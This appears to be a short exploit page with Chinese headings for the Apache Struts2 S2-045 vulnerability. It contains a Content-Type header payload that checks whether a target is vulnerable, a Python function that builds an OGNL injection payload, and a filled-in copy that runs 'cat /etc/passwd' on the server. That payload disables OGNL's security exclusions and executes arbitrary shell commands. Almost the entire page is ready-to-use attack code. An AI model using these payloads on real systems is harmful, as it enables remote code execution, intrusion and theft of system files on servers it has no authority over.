

# S2-045

## 验证目标是否存在S2-045漏洞
```exp
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data

```



## 命令执行
```python3
def p(cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"


'''
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
'''
```


